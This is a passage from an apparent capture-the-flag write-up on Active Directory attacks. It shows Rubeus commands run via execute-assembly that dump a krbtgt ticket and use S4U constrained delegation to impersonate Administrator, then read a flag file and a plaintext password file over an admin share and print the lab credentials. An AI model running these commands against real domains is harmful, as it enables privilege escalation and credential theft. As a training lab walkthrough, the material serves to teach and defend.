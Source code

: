 4. **Dump Ticket for Krbtgt Service:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe dump /luid:0x3e4 /service:krgtgt
   ```
   This command dumps the ticket for the `krgtgt` service, which is crucial for performing the S4U (Service for User) technique.

5. **Perform S4U Technique:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/fs.kikrr.local /user:print-srv$ /ticket:doIFkD{snip}iqADAgEFoQ0bC0 /nowrap /ptt
   ```
   This command uses the obtained ticket to impersonate the `Administrator` user and requests a service ticket for the target service `cifs/fs.kikrr.local` using the S4U protocol.

### Accessing Resources and Obtaining Flag:

1. **Access Flag on Administrator's Desktop:**
   ```
   powerpick type \\fs.kikrr.local\c$\Users\Administrator\Desktop\flag.txt
   ```
   This command accesses and displays the content of the `flag.txt` file located on the Administrator's desktop on the file server `fs.kikrr.local`.

2. **Access Passwords File on User's Documents:**
   ```
   powerpick type \\fs.kikrr.local\c$\Users\naa\Documents\passwords.txt
   ```
   This command accesses and displays the content of the `passwords.txt` file located in the `Documents` folder of the user `naa` on the file server `fs.kikrr.local`.

### Extracted Information:

- **Flag:**
  ```
  flag{Stop_Peeking_Me_Bro_With_Constrained_Delegation}
  ```
  This is the extracted flag indicating successful exploitation and access.

- **User Credentials:**
  ```
  KIKKR\naa: TheNetworkaa1@#
  ```
  These are the credentials for the user `naa` obtained from the `passwords.txt` file.

---

## Flag 9

This Flag involves the exploitation of `RBCD` with the help of user `naa`
### Searching for Resource-Based Constrained Delegation (RBCD):
